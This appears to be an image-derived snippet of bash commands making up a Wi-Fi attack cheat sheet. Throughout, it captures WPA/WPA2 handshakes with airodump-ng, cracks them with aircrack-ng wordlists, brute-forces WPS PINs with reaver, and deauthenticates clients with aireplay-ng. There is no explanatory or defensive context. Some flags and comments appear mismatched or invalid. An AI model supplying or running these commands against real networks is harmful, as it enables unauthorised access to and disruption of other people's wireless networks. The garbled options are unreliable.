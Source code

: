 ```bash
# Monitor and analyze signal quality in real-time
sudo iw dev wlan0mon scan | grep -E "SSID|Signal"
```

```bash
# Capture WPA/WPA2 handshake in an isolated, focused environment
airodump-ng -c [channel] --bssid [BSSID] -w capturefile wlan0mon
```

```bash
# Perform a full WPA/WPA2 handshake capture with detailed logging
sudo airodump-ng -c [channel] --bssid [BSSID] --write capturefile --log-level 5 wlan0mon
```

```bash
# Execute an automatic attack for cracking WPA2, using optimal wordlists
sudo aircrack-ng -w /path/to/wordlist.txt -b [BSSID] capturefile-01.cap
```

```bash
# Command to verify the status of ongoing cracking attempts
tail -f aircrack-output.log
```

```bash
# Check the packet status of Reaver after a session interruption
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv -K 1 -r
``` 

```bash
# Use an updated, optimized wordlist for Aircrack-ng attacks
sudo aircrack-ng -w /path/to/updated_wordlist.txt -b [BSSID] capturefile-01.cap
```

```bash
# Speed up Reaver brute force with a custom pin guess range
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv -P [min_pin]-[max_pin]
```

```bash
# Perform a post-capture analysis to ensure that the handshake is intact before cracking
aircrack-ng capturefile-01.cap
```

```bash
# Use custom attack delay for Reaver to prevent lockouts and increase stability
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv --delay 5
```

```bash
# Conduct a targeted attack to only force deauthentication on a specific device
sudo aireplay-ng --deauth 10 -c [Client_MAC] -a [BSSID] wlan0mon
```

```bash
# Verify network strength and channel to ensure minimal interference
iw dev wlan0mon scan | grep -E "SSID|Signal|Channel"
```

```bash
# Review error logs for Reaver and Aircrack-ng attacks
cat /var/log/syslog | grep "aircrack"
cat /var/log/syslog | grep "reaver"
```
